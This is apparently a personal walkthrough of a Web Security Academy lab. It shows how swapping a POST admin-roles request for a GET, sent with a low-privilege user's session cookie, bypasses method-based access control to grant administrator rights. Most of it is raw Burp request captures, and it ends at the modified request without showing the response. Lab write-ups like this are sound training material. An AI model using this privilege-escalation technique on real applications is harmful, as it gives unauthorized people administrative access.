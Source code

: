 *This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin. To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.*

Logged in as admin first and navigated to the admin panel : 

![Screenshot 2024-04-30 at 4.06.47 PM](images/Screenshot%202024-04-30%20at%204.06.47%20PM.png)
Let's try capturing the request to upgrade a user to see what is passed: 

```Burp 
POST /admin-roles HTTP/2
Host: 0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Cookie: session=xjCpOIGkNqRjyYMF4dZVoYNt7vLltwED
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Referer: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener&action=upgrade

```

I opened a new tab and logged in as *wiener* to obtain the session value and pass that into the original request in the Repeater, changing the value the request to GET. 

```Burp 
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Cookie: session=5ue9JsMoN6zQf7xmBhG1LTbUgvSMY5vT
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net
Referer: https://0ae7004a0480cf4887d38a2c00d2005e.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```